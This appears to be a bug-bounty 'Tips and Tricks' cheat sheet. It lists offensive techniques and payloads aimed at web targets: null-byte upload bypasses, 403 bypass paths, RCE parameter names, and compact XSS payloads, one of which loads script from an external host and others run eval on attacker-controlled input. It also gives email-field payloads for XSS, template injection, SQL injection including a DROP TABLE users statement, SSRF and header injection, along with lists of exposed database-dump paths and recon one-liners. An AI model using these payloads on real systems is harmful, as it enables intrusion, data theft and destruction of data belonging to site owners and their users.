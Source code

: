 # Tips and Tricks

## Null Byte Injection Trick: 
	file.jpg%00shell.php
	shell.php%00file.jpg
	shell.php%00.jp


## Tampering 403 Error Bypass: 
	site.com/secret –> HTTP 403 Forbidden
	site.com/secret/ –> HTTP 200 OK
	site.com/secret/. –> HTTP 200 OK
	site.com//secret// –> HTTP 200 OK
	site.com/./secret/.. –> HTTP 200 OK


## Database Enumeration
	Note: Need to clone: 
	https://github.com/maurosoria/dirsearch
	https://github.com/anantshri/svn-extractor
	
	./dirsearch.py -u target -e php,html,js,xml -x 500,403
	./svn-extractor.py --url http://url.com --match database.php

## Finding hidden get parameters: 
	Note: 	   	
	https://github.com/tomnomnom/assetfinder
	https://github.com/lc/gau
	
	assetfinder example.com | gau | egrep -v '(.css|.png|.jpeg|.jpg|.svg|.gif|.wolf)' | while read url; do vars=$(curl -s $url | grep -Eo "var [a-zA-Z0-9]+" | sed -e 's,'var','"$url"?',g' -e 's/ //g' | grep -v '.js' | sed 's/.*/&=xss/g'); echo -e "\e[1;33m$url\n\e[1;32m$vars"; done

## RCE Injection: 
	?cmd={payload}
	?exec={payload}
	?command={payload}
	?execute{payload}
	?ping={payload}
	?query={payload}
	?jump={payload}
	?code={payload}
	?reg={payload}
	?do={payload}
	?func={payload}
	?arg={payload}
	?option={payload}
	?load={payload}
	?process={payload}
	?step={payload}
	?read={payload}
	?function={payload}
	?req={payload}
	?feature={payload}
	?exe={payload}
	?module={payload}
	?payload={payload}
	?run={payload}
	?print={payload}

## Small Payloads: 
#### *If number of iframes on the page is constant* 
	<iframe/onload=src=top[0].name+/\Ǌ.₨?/>

#### *If number of iframes on the page is random*
	<iframe/onload=src=contentWindow.name+/\Ǌ.₨?/>

#### *If unsafe-inline is disabled in CSP and external scripts allowed*
	<script/src=//Ǌ.₨></script>

#### *If you control the name of the window*
	<iframe/onload=src=top.name>

#### *If you control the name, will work on Firefox in any context, will fail in chromium in DOM*
	<svg/onload=eval(name)>

#### *If you control the URL*
	<svg/onload=eval(`'`+URL)>

##  Finding sensitive information using AlienVault:
##### *Go To* :  https://otx.alienvault.com/indicator/domain/<TARGET>
	curl -s "https://otx.alienvault.com/api/v1/indicators/domain/<TARGET>/url_list?limit=100&page=1" | jq
##### *To get only the list of URLs, we could do this*:
	curl -s "https://otx.alienvault.com/api/v1/indicators/domain/<TARGET>/url_list?limit=100&page=1" | jq -r '.url_list[].url'
	
##  Forgotten Database Dumps:
	/back.sql
	/backup.sql
	/accounts.sql
	/backups.sql
	/clients.sql
	/customers.sql
	/data.sql
	/database.sql
	/database.sqlite
	/users.sql
	/db.sql
	/db.sqlite
	/db_backup.sql
	/dbase.sql
	/dbdump.sql
	setup.sql
	sqldump.sql
	/dump.sql
	/mysql.sql
	/sql.sql
	/temp.sql


##  Email Address Payloads: 
##### *XSS (Cross-Site Scripting):*
	test+(<script>alert(0)</script>)@example.com
	test@example(<script>alert(0)</script>).com
	"<script>alert(0)</script>"@example.com

## Template injection:
	"<%= 7 * 7 %>"@example.com
	test+(${{7*7}})@example.com

## SQL injection:
	"' OR 1=1 -- '"@example.com
	"mail'); DROP TABLE users;--"@example.com

## SSRF (Server-Side Request Forgery):
	john.doe@abc123.burpcollaborator.net
	john.doe@[127.0.0.1]

##  Parameter pollution:
	victim&email=attacker@example.com

##  (Email) header injection:
	"%0d%0aContent-Length:%200%0d%0a%0d%0a"@example.com
	"recipient@test.com>\r\nRCPT TO:<victim+"@test.com
	
## Extracting endpoints from JavaScript files:
	cat main.js | grep -oh "\"\/[a-zA-Z0-9_/?=&]*\"" | sed -e 's/^"//' -e 's/"$//' | sort -u

## Extracting Juicy Information:
	for sub in $(cat domains.txt);do /usr/bin/gron "https://otx.alienvault.com/otxapi/indicator/hostname/url_list/$sub?limit=100&page=1" | grep "\burl\b" | gron --ungron | jq |egrep -wi 'url' | awk '{print $2}' | sed 's/"//g'| sort -u | tee -a file.txt  ;done

## Extracting all the urls from sitemap
	curl -s domain.com/sitemap.xml | xmllint --format - | grep -e 'loc' | sed -r 's|</?loc>||g'



